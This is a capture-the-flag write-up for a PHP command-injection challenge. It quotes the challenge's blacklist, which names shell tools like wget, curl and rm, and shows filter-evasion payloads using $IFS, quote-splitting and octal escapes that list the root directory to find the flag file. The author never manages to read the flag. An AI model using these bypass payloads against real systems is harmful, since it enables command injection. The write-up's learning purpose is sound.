 ```yaml
---
layout: default
title: level26
---
```


In this level we can run commands, and trying to get the flag.

However, we are in a very strict environment:
```php
$code = substr ($_POST['code'], 0, 40);

putenv ("PATH=/don't_be_so_clever");

$special_characters = array ('&', '<', '>', '|', '`', '-', '^', '*', '=', ';', '.', '%', '/', '[', '_', '"', ' ', '?', '{', '}', "\t");
$words_filter = array ('flag', 'php', 'path', 'export', 'env');
$functions = array ('eval', 'echo', 'printf', 'base', 'grep', 'find', 'xargs', 'pwd', 'awk', 'wget', 'curl', 'read', 'tar', 'zip', 'rm', 'xxd', 'hex', 'ln', 'cp');

$blacklist = array_merge ($special_characters, $words_filter, $functions);

$insecure = false;
foreach ($blacklist as $blacklisted) {
    if (stripos ($code, $blacklisted) !== FALSE) {
        $char = $blacklisted;
        $insecure = true;
        break;
    }
}
```
It let us insert only `40` chars, and also restrict a lot of chars. In addition, it changed the `PATH`, that we won't be able to use `ls` or other commands like that.

So, first the bypassing of ` ` (space) we can take `$IFS`.
For example:
`echo 'hello'` -> `echo$IFS'hello'`

Second, we can use `pwd` by putting `''` inside, for example:
`pwd` -> `pw''d`.

I managed to find the name of the file `flag...`
This is the payload:
```bash
ech''o$IFS$(print''f$IFS\\57\\052)
```

Where `\\57` is `/` in octal, and `\\052` is `*` in octal.

This is the output:

![ls](./images/level26_ls.png)

So, this is the filename: `/flag_44729d28d2d509fa3d9fc85deca21bce`, however, i don't know how to read it...
I thought about something like this:
```bash
echo "$(<f*)"
```

but it worked for me only in local (at least i don't know how to build it with the obfuscation).

![read flag local](./images/level26_read_flag_in_local.png)

Oh, i understand why it isn't working, because the challenge use `/bin/sh`, and i'm using `/bin/bash`.

When checking this in `/bin/sh`, i got:
```
$ echo "$(<f*)"
sh: 93: cannot open f*: No such file
```

The `globe` isn't working in `sh` like it works in `bash`.

This would work:
```sh
for f in $(echo f\\52); do read m <$f; printf %s $m; done
```
However, of course we can't use that... 

:|


**Flag:** ***`PLACE_HOLDER`*** 
